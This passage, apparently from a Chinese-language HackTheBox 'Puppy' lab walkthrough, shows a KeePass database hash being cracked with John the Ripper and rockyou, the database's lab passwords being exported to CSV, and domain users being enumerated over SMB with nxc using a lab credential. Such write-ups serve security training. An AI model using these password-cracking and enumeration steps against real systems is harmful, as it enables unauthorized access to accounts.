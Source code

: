 安装后的文件默认在/snap下。因为kali默认没有snap，也就没有把/snap/bin加入环境变量，我们可以输入完整路径调用，也可以添加路径到环境变量中

```
/snap/bin/john-the-ripper.keepass2john recovery.kdbx > hash
```

```
└─# /snap/bin/john-the-ripper hash --wordlist=rockyou.txt --format=KeePass 

结果是liverpool
```

每次破解后john会保存结果，作为彩虹表

```
└─# /snap/bin/john-the-ripper hash --show
recovery:liverpoo
```

可以查看保存过的结果

使用KeePass打开这个数据库文件（sudo apt install keepassxc-minimal）

```
└─# keepassxc-cli ls recovery.kdbx
输入密码以解锁 recovery.kdbx：
JAMIE WILLIAMSON
ADAM SILVER
ANTONY C. EDWARDS
STEVE TUCKER
SAMUEL BLAKE
```

可以一个个show，也可以直接export导出

```
keepassxc-cli export -f csv recovery.kdbx > output.csv
```

内容如下：

```
"Group","Title","Username","Password","URL","Notes","TOTP","Icon","Last Modified","Created"
"Root","JAMIE WILLIAMSON","","JamieLove2025!","puppy.htb","","","0","2025-03-10T08:57:58Z","2025-03-10T08:57:01Z"
"Root","ADAM SILVER","","HJKL2025!","puppy.htb","","","0","2025-03-10T09:01:02Z","2025-03-10T08:58:07Z"
"Root","ANTONY C. EDWARDS","","Antman2025!","puppy.htb","","","0","2025-03-10T09:00:02Z","2025-03-10T08:58:46Z"
"Root","STEVE TUCKER","","Steve2025!","puppy.htb","","","0","2025-03-10T09:03:48Z","2025-03-10T09:01:26Z"
"Root","SAMUEL BLAKE","","ILY2025!","puppy.htb","","","0","2025-03-10T09:03:39Z","2025-03-10T09:02:03Z"
```

注意这里显示的用户名是用户全称，并非用于认证的账户名。整理密码到文件中，我们需要的用户名哪里来呢？

nxc smb  --user枚举域中所有用户

```
└─# nxc smb 10.10.11.70 -u levi.james -p KingofAkron2025! --smb-timeout 10 --users --threads 1 --timeout 10 --verbose
```
